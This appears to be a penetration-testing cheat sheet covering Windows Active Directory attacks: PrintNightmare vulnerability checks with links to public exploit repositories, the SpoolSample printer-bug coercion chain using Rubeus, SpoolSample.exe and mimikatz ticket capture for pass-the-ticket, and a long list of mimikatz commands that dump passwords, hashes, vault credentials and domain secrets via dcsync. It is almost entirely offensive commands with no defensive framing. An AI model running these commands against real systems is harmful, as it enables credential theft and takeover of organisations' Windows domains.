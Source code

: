 ## PrintNightmare
`impacket-rpcdump -port 135 <target-ip> | grep -E 'MS-RPRN|MS-PAR'` (To check if vulnerable)
- SharpPrintNightmare
- https://github.com/cube0x0/CVE-2021-1675
- https://github.com/calebstewart/CVE-2021-1675

## SpoolSample or PrinterBug
- Coerce Authentication
- [Binary Link](https://github.com/jtmpu/PrecompiledBinaries)
```
ls \\dc01\pipe\spoolss
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
impacket-rpcdump -port 135 <target-ip> | grep -i 'spoolss'
rpcdump.py $TARGET | grep -A 6 "spoolsv"

Rubeus.exe monitor /monitorinterval:10 /targetuser:DC01$ /nowrap

.\SpoolSample.exe dc01 ws01

mimikatz # sekurlsa::tickets

ptt attack
```

## ShadowCoerce

## PetitPotam

## Mimikatz 
```
privilege::debug (run first)
token::elevate
vault::list
vault::cred /patch
lsadump::sam
lsadump::lsa /patch
sekurlsa::logonpasswords
sekurlsa::logonpasswords full
kerberos::tickets
crypto::certificates
lsadump::secrets
lsadump::dcsync

lsadump::cache
kerberos::list
sekurlsa::ekeys
sekurlsa::credman
sekurlsa::kerberos
sekurlsa::msv
sekurlsa::kerberos
```
